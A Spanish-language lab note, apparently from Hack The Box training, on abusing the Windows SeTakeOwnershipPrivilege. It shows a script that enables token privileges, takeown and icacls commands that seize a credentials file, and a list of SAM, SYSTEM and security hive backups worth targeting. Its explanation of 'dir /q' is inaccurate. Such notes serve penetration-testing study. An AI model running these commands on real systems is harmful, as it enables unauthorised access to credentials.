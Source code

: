 ----

- También podemos usar este script para activar todos los tokens privs [EnableAllTokenPrivs](https://github.com/fashionproof/EnableAllTokenPrivs/blob/master/EnableAllTokenPrivs.ps1)


## SeTakeOwnerPrivilege
- Este privilegio permite la habilidad de tomar ownership de cualquier objeto.
    - NTFS, Registry, File, Process, Thread, Semaphore, Mutex, Desktop, Window Station, Message Queue, Job, and Section.
- Este privilegio asigna permisos WRITE_OWNER para el objeto especificado.
- Se puede intentar habilitar este privilegio usando [el siguieunte script](https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1)

```powershell
PS C:\htb> Import-Module .\Enable-Privilege.ps1
PS C:\htb> .\EnableAllTokenPrivs.ps1
PS C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                              State
============================= ======================================== =======
SeTakeOwnershipPrivilege      Take ownership of files or other objects Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                 Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set           Enabled
```

- Después tenemos que elegir un archivo objetivo para la operación de tomar ownership.
    - Ejemplo: `cmd /c dir /q 'C:\Department Shares\Private\IT'`
        - Explicación del comando:
            - `cmd` es el comando que se va a ejecutar.
            - `/c` es la opción que indica que se va a ejecutar el comando.
            - `dir` es el comando que se va a ejecutar.
            - `/q` es la opción que indica que se va a mostrar el resultado de la operación.
            - `'C:\Department Shares\Private\IT'` es el objetivo de la operación de tomar ownership.
    - `takeown /f 'C:\Department Shares\Private\IT\cred.txt'
    - `icacls 'C:\Department Shares\Private\IT\cred.txt' /grant htb-student:F`
    - Ahora con esto podemos tomar ownership de un archivo.
### En donde conviene usar esta técnica de tomar ownership

```
c:\inetpub\wwwwroot\web.config
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software, %WINDIR%\repair\security
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
```
